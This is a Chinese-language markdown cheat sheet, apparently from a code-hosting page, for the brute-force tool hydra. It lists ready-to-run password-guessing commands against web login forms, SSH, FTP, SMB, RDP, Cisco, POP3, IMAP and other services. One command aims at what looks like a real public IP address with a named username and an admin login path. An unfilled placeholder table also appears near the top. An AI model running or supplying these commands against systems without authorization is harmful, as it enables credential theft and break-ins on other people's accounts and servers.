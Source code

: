 ## hydra九头蛇：暴力破解工具
hydra是一个支持众多协议的爆破工具。<br>

**参数详解**<br>
表头  | 表头  | 表头
---- | ----- | ------  
单元格内容  | 单元格内容 | 单元格内容 
单元格内容  | 单元格内容 | 单元格内容  

参数 | 用途
---- | -----
-l | 指定单个用户名，适合在知道用户名爆破用户名密码时使用
-L | 指定多个用户名，参数值为存储用户名的文件的路径(建议为绝对路径)


### 1、破解http post:
```shell
hydra -t 10 -l vaccigen -P /opt/fuzzDicts-master/passwordDict/top6000.txt -o out.txt -f -vV 52.196.234.51 http-post-form "/admin/index.php:account=^USER^&password=^PASS^:error" 
```
### 2、破解http get:
```shell
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```
### 3、破解https:
```shell
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 
```
### 4、破解ssh:
```shell
hydra 192.168.56.12 ssh -l user -P /root/Work/sshpasswd.list -t 6 -V -f
```
### 5、破解ftp:
```shell
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
```
### 6、破解teamspeak： 
```shell
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 
```
### 7、破解cisco： 
```shell
hydra -P pass.txt 10.36.16.18 cisco 
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 
```
### 8、破解smb： 
```shell
hydra -l administrator -P pass.txt 10.36.16.18 smb 
```
### 9、破解pop3： 
```shell
hydra -l muts -P pass.txt my.pop3.mail pop3 
```
### 10、破解rdp： 
```shell
hydra ip rdp -l administrator -P pass.txt -V 
```
### 11、破解http-proxy： 
```shell
hydra -l admin -P pass.txt http-proxy://10.36.16.18 
```
### 12、破解imap: 
```shell
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```
